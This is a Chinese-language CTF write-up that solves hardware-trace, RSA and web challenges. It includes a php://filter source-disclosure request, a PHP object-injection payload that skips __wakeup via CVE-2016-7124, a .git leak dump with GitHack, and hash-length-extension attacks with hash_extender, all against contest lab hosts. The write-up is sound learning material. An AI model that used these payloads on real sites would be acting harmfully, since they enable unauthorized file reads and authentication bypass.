打完比赛就回去必修课期末考，于是现在才整理。这里只记录了少数几题的 writeup。

<!--more-->

## 初赛

### 签到

下载压缩包后解压得到 exe，运行后发现需要通过摄像头识别 3 个队员的人脸。识别成功后即得到 flag。

### Saleae

下载文件后解压得到 saleae.logicdata，因此我们用 Logic 打开该文件，得到四信道的波形图：


由于题目提示该波形图来自 U 盘，而且共有四个信道，因此猜想可能采用了 SPI 协议。在右侧 Analyzer 里新建分析器：



这里主要需要确定的是四个信道是如何对应 SPI 协议的四信道的。观察波形：


可以看到 Channel0 波形周期十分稳定，比较可能是 Clock；Channel1 持续低电平，可能是 Enable，或者 MOSI/MISO 二者之一。



Channel2 波形较不规律，则必定是 MOSI/MISO 二者之一；Channel3 对应 Channel2 的那一段，两端恰好发生跳变，因此很有可能是 Enable。于是我们推出 Channel1 只能是 MOSI/MISO 二者之一。

最终，我们发现这样的信道分配可以给出有用的信息：





拼接成字符串即可得到 flag。

### 24c

同上题做法，根据波形猜测为 `I2C` 协议，载入模板可得：

```
Time[s],AnalyzerName,DecodedProtocolResult
0.843705500000000,I2C,SetupWriteto['160']+ACK
0.843872000000000,I2C,''+ACK
0.844038500000000,I2C,f+ACK
0.844205000000000,I2C,1+ACK
0.844371000000000,I2C,6+ACK
0.844537500000000,I2C,3+ACK
0.844704000000000,I2C,b+ACK
0.844870500000000,I2C,d+ACK
0.845036500000000,I2C,f+ACK
0.845203000000000,I2C,4+ACK
0.845369500000000,I2C,e+ACK
0.845536000000000,I2C,}+ACK
0.845702500000000,I2C,'0'+ACK
0.945796000000000,I2C,SetupWriteto['160']+ACK
0.945962500000000,I2C,'0'+ACK
0.946154000000000,I2C,SetupReadto['161']+ACK
0.946318000000000,I2C,f+ACK
0.946481500000000,I2C,l+ACK
0.946645000000000,I2C,a+ACK
0.946808500000000,I2C,g+ACK
0.946972000000000,I2C,{+ACK
0.947135500000000,I2C,c+ACK
0.947299500000000,I2C,4+ACK
0.947463000000000,I2C,6+ACK
0.947626500000000,I2C,d+ACK
0.947790000000000,I2C,9+ACK
0.947953500000000,I2C,e+ACK
0.948117500000000,I2C,1+ACK
0.948281000000000,I2C,0+ACK
0.948444500000000,I2C,-+ACK
0.948608000000000,I2C,e+ACK
0.948771500000000,I2C,9+ACK
0.948935500000000,I2C,b+ACK
0.949099000000000,I2C,5+ACK
0.949262500000000,I2C,-+ACK
0.949426000000000,I2C,4+ACK
0.949589500000000,I2C,d+ACK
0.949753000000000,I2C,9+ACK
0.949917000000000,I2C,0+ACK
0.950080500000000,I2C,-+ACK
0.950244000000000,I2C,a+ACK
0.950407500000000,I2C,8+ACK
0.950571000000000,I2C,8+ACK
0.950734500000000,I2C,3+ACK
0.950898000000000,I2C,-+ACK
0.951061500000000,I2C,4+ACK
0.951225000000000,I2C,1+ACK
0.951388500000000,I2C,c+NAK
5.946480500000000,I2C,SetupWriteto['160']+ACK
5.946647000000000,I2C,\t+ACK
5.946813500000000,I2C,a+ACK
5.946980000000000,I2C,c+ACK
```

猜测 flag 为 `flag{c46d9e10-e9b5-4d90-a883-41cf163bdf4e}`，但提交提示错误。

注意到最后三个字符 `\t a c`，由于 `\t` 出现在这里很违和，猜想这个字符并不代表字符本身，而是 ASCII 码对应的十六进制数（也就是 `09`）。结合 `I2C` 协议约定，猜测是将 flag 从第 9 位开始，用 `ac` 两个字符去覆盖掉原内容，于是得到：`flag{c46dac10-e9b5-4d90-a883-41cf163bdf4e}`，即最终 flag。

### usbasp

下载文件后解压得到 usbasp.logicdata，因此我们用 Logic 打开该文件，得到四信道的波形图。由于共有四个信道，因此猜想可能采用了 SPI 协议。在右侧 Analyzer 里新建分析器：



这里主要需要确定的是四个信道是如何对应 SPI 协议的四信道的。观察波形：



可以看到 Channel2 波形周期十分稳定，比较可能是 Clock；Channel0 和 Channel1 没有特定的规律，因此应该分别是 MISO/MOSI 之一。于是 Channel3 应该是 Enable。

此外，观察 Channel3，可以发现应该是高电平触发。最终，我们发现这样的信道分配和设置可以给出有用的信息：





拼接成字符串即可得到 flag。

> 居然能出三道差不多的题，而且号称是 IoT 题？？

### Asymmetric

（图片来自队友）


其实就是变种 RSA，明白了这一点就容易了，但是坑点在于 python 中 `long` 和 `bytes` 互转的问题，推荐 python2 写：

```python
import gmpy2
import random
from Crypto.Util.number import *

p=165740755190793304655854506052794072378181046252118367693457385632818329041540419488625472007710062128632942664366383551452498541560538744582922713808611320176770401587674618121885719953831122487280978418110380597358747915420928053860076414097300832349400288770613227105348835005596365488460445438176193451867
p3 = p**3
p4 = p**4

def gcd(a,b):
  while a != 0:
    a,b = b%a, a
  return b

def generate_key(nbit):
  e=58134567416061346246424950552806959952164141873988197038339318172373514096258823300468791726051378264715940131129676561677588167620420173326653609778206847514019727947838555201787320799426605222230914672691109516799571428125187628867529996213312357571123877040878478311539048041218856094075106182505973331343540958942283689866478426396304208219428741602335233702611371265705949787097256178588070830596507292566654989658768800621743910199053418976671932555647943277486556407963532026611905155927444039372549162858720397597240249353233285982136361681173207583516599418613398071006829129512801831381836656333723750840780538831405624097443916290334296178873601780814920445215584052641885068719189673672829046322594471259980936592601952663772403134088200800288081609498310963150240614179242069838645027877593821748402909503021034768609296854733774416318828225610461884703369969948788082261611019699410587591866516317251057371710851269512597271573573054094547368524415495010346641070440768673619729280827372954003276250541274122907588219152496998450489865181536173702554116251973661212376735405818115479880334020160352217975358655472929210184877839964775337545502851880977049299029101466287659419446724781305689536816523774995178046989696610897508786776845460908137698543091418571263630383061605011820139755322231913029643701770497299157169690586232187419462594477116374977216427311975598620616618808494138669546120288334682865354702356192972496556372279363023366842805886601834278434406709218165445335977049796015123909789363819484954615665668979L
  pubkey = (long(e), long(p4))
  return pubkey

def findModReverse(a,m):
  if gcd(a,m) != 1:
    return None
  u1, u2, u3 = 1L, 0L, a
  v1, v2, v3 = 0L, 1L, m
  while v3 != 0:
    q = u3//v3
    v1, v2, v3, u1, u2, u3 = (u1-q*v1), (u2-q*v2), (u3-q*v3), v1, v2, v3
  return u1%m

def crypt(msg, pkey):
  e, n = pkey
  m = bytes_to_long(msg)
  assert m < n -1
  enc = pow(m, e, n)
  return long_to_bytes(enc)

def decrypt(msg, pkey):
  e, n = pkey
  c = bytes_to_long(msg)
  d = findModReverse(e, p3*(p-1))
  dec = pow(c, d, n)
  return long_to_bytes(dec)

nbit = 1024
pubkey = generate_key(nbit)
print 'pubkey =', pubkey

cipher="YXmuOsaD1W4poLAG2wPrJ/nYZCkeOh2igCYKnZA6ecCeJadT6B3ZVTciPN6LJ8AcAsRXNnkC6+9PNJPhmosSG5UGGbpIcg2JaZ1iA8Sm3fGiFacGvQsJOqqIWb01rjaQ3rDBKB331rrNo9QNOfMnjKr0ejGG+dNObTtvnskICbYbNnSxMxLQF57H5JnWZ3LbbKQ493vmZzwvC6iH8blNPAp3dBlVzDqIAmxmUbk0OzFjPoHphD1oxHdzXyQNW+sLxVldrf9xcItq92jN5sqBYrG8wADIqY1/sqhTMZvkIYFMHqoMQuiRSnVrCF2h2RtGDEayLo0evgXI/0W3YveyKCHViOnG6wypcBFm91ZWdjp3fVW/4DyxW6xu9hg/NlXyRP6pT/OyQpcyTqKRuiXJLWgFUJI/8TRgyAjBLLgSd3U0N3VM8kewXw5j+fMUTCW9/Gy4iP8m52Zabx/vEKdwdGZ0QyvgvAWGUFZ96EK0g1BM/LU9Tuu2R+VKcCSCprg283x6NfYxmU26KlQE6ZrrjLmbCOe0327uaW9aDbLxZytPYIE5ZkzhSsD9JpQBKL30dCy3UKDbcuNgB6SrDddrbIuUd0/kLxuwh6kTqNbC4NDrOT4WAuP4se8GGOK8Wz0dL6rE6FkzMnI4Qg501MTSNQZ4Bp7cNf6H9lTa/4DNOl0=="
flag = decrypt(cipher.decode('base64'),pubkey)
print flag
```

### JustSoso

查看源代码发现需要 `hint.php`，通过 php 伪协议转换为 Base64 编码获取：`?file=php://filter/convert.base64-encode/resource=hint.php`。

对于 `index.php` 也同理：`?file=php://filter/convert.base64-encode/resource=index.php`。



得到 index.php：



以及 hint.php：



从 `hint.php` 可以看出，Flag 类的 `getFlag` 函数最终会打印 flag，而该函数由 `Handle` 类调用。再审查 `index.php`，发现需要先 include 一下 `hint.php`，过滤后反序列化 payload。

因此我们需要利用 php 反序列化漏洞，先构造 `flag.php`，即：`newHandle(newFlag(“flag.php”))`。

然后我们需要绕过的过滤有：

1. payload 中对 `flag` 的正则过滤；
2. 绕过 `__wakeup` 函数中对 `handle` 置 `null` 的操作；
3. 绕过代码中要求 md5 值相等的判断。

由 `cve-2016-7124`，我们知道，当序列化字符串中表示对象个数的值大于真实的属性个数时会跳过 `__wakeup()` 的执行。

因此我们在 payload 中需要注意：将 payload 中的 1 改为大于 1 的任意整数来跳过 `__wakeup` 函数，用 `%00` 填充 `Handle`，并令 `token` 等于 `token_flag` 的引用。最终 payload:

```
///index.php?file=hint.php&payload=O:6:"Handle":2:{s:14:"%00Handle%00handle";O:4:"Flag":3:{s:4:"file";s:8:"flag.php";s:5:"token";N;s:10:"token_flag";R:4;}}
```

浏览器中访问即可得到 flag。

## 半决赛

### web6

本题存在 `.git` 仓库泄露，我们用 `GitHack` 提取文件：

```shell
$ python GitHack.py http://172.29.12.114/.git/
```

得到 `getflag.php` 和 `index.html`，显然只有前者有用。查看 `getflag.php` 源码：

```php
<?php
error_reporting(0);
include "flag.php";
$user=$_POST['user'];
function encrypt($text){
    global $key;
    return md5($key.$text);
}

if (encrypt($user)===$_COOKIE['verify']) {
    if(is_numeric(strpos($user,'root'))){
        die($flag);
    }
    else{
        die('not root！！！');
    }
}
else{
    setcookie("verify",encrypt("guest"),time()+60*60*24);
    setcookie("len",strlen($key),time()+60*60*24);
}
//show_source(__FILE__);
```

我们想要进入 `die($flag)` 这一行，需要通过两个 `if` 判断，首先是要 `encrypt` 过后的 `user` 参数强等于 `Cookie` 中 `verify` 的值，后者是我们已知的（通过抓包获取，还可以知道 `len` 是 32）。接着要求 `user` 参数中包含 `root` 这个字符串。

通过下方 `setcookie("verify",encrypt("guest"),time()+60*60*24);` 这一行我们知道，`verify` 的值是 `guest` 经过 `encrypt` 后得到的，而 `encrypt` 中的全局变量 `key` 是我们无法得知的，因此无法强行计算 `encrypt` 这个函数的结果。换而言之，一个 32 位的 `key` 连接上 `user` 的 `md5` 值已知，而我们想构造出在 `key` 连接 `user` 再连接 `root` 后的新 `md5` 值，很容易想到哈希扩展攻击，构造 payload：

```shell
$ ./hash_extender --data admin123 --secret 10 --append admin123 --signature e7187cb49ce6d5958d279284af968254 --format md5
```

得到：



最后，用 URL 解码后的 `New string` 作为 `user` 参数的值，用 `New signature` 替换 `verify` 的值，即可得到 `flag`：


### web3

首先访问 `robots.txt` 得到：

```
User-agent: Baiduspider
Disallow: /bdhfyusdf
Disallow: /index?
Disallow: /flaggalf?
Disallow: /Are you OK?
Disallow: /NEWbi?
Disallow: /ndsufbewhjubdvse/niubi/ii4375uhnfsv/admin.php?
Disallow: /google
Disallow: /PrivatePhotos
```

其中能访问的只有 `http://172.29.12.111/ndsufbewhjubdvse/niubi/ii4375uhnfsv/admin.php`。访问后看到一个登陆页面，burp 抓包发现 `Cookie` 中存在一个特殊的字段：

```
hash_key=e7187cb49ce6d5958d279284af968254; source=0
```

观察发现是 32 位，猜想是 `md5` 值。但是到这里为止很难再进一步分析。于是我们扫描当前目录，发现了 `License.txt`：

```php
$flag = "flag{xxxxxx_just_a_sample_xxxxxxx}";
$bisskey = "xxxxxxxxx_just_a_sample_xxxxxxx"; // To remember Easily, 10 chars allowed.

$username = $_POST["username"];
$password = $_POST["password"];
header("hash_key:" . $hash_key);


if (!empty($_COOKIE["MyIdentity"])) {
    if (urldecode($username) === "admin123" && urldecode($password) != "admin123") {
        if ($_COOKIE["MyIdentity"] === md5($bisskey . urldecode($username .$password))) {
            echo "Great! You win!\n";
            echo ("<!-- Y0ur f!4g 1s here". $flag . "-->");
        }
        else {
            die ("I don't konw what you say!");
        }
    }
    else {
        die ("I don't konw what you say!");
    }
}

setcookie("hash_key", md5($bisskey . urldecode("admin123"."admin123")), time() + (60 * 60 * 24 * 7));
```

这里接收 `username` 和 `passwd` 参数，并要求 `MyIdentity` 非空的情况下 `username` 强等于 `admin123` 且 `passwd` 经过 URL 解码不等于 `admin123`。最后一层 `if` 是要求 `MyIdentity` 的值等于未知的长度为 10 的 `bisskey` 连接上 `username` 和 `passwd` 的 `md5` 值，显然这个我们也很难计算，但是类似 `web6`，我们可以用哈希扩展攻击的方法得到 flag：


> 剩余的一些做出来的题，感觉记录的意义不大就没有记录下来。
